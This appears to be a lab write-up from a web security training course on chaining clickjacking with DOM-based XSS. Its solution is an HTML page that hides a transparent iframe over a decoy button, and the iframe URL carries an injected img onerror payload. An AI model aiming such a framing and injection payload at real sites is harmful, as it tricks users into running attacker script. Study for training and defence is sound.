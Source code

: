 # Combining clickjacking with a DOM XSS attack

## Description

So far, we have looked at clickjacking as a self-contained attack. Historically, clickjacking has been used to perform behaviors such as boosting "likes" on a Facebook page. However, the true potency of clickjacking is revealed when it is used as a carrier for another attack such as a DOM XSS attack. Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack. 

## Task

This lab contains a XSS vulnerability that is triggered by a click. Construct a clickjacking attack that injects a XSS payload and fools the user into clicking the button to execute the payload. 

## Solution

```xml
<html>
<head>
  <style>
    #target_website {
      position: relative;
      width: 278px;
      height: 849px;
      opacity: 0.00000001;
      z-index: 2;
      top: -822px;
      left: -20px;
    }

    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
   <button>Just click this button!</button>
  </div>
  <iframe id="target_website" src="https://acc51f5f1e70d55d80c003e700bd003e.web-security-academy.net/feedback?name=</span><img src=x onerror='alert(1)' /><span>&email=me@evil.mail&subject=1&message=1">
  </iframe>
</body>

</html>
```